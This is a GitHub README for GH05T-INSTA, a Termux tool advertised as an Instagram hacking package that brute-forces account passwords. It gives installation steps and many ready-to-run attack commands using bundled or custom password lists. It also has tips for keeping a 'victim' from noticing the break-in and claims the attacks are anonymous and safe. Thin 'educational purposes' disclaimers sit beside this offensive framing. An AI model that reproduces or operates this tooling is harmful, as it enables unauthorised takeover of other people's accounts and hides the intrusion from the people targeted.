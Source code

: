 <b><em>Instagram Hacking Package</em></b>

<b>We strive to provide the best service</b>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220826_141617.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">
<i>TERMUX USERS  { No Root }</i>

<b>The best way to hack Instagram</b>

<b>⚔️ Last Updated  :  Tuesday, 30 August 2022</b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

`This is our teamwork, so please support our team`

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

`We built this because there is no good brute force tool to use in Termux`

## Installation 3.01 {Termux}

$ `pkg install git`

$ `pkg install python`

$ `pkg install python2`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `python install.py`

$ `cd $HOME`

$ `rm -rf GH05T-INSTA`

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers

<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

#### We never recommend this method, but try it yourself

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220902_131113.jpg" alt="GH05T INSTA" title="GH05T INSTA">

##### Why gh05t-hunter5 never recommend this `gh05t` method

* The main reason is that it is not good for your work
* This method wastes your time
* 101% Working 😉

#### Password List

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg" alt="GH05T INSTA PASSWORD LIST" >

<i>WORKING DEMO <a href="https://bit.ly/3RrxZQ8">GH05T ATTACK (safe to use)</a> </i>

<em>Please confirm that Tor is installed</em>

#

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

#

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`
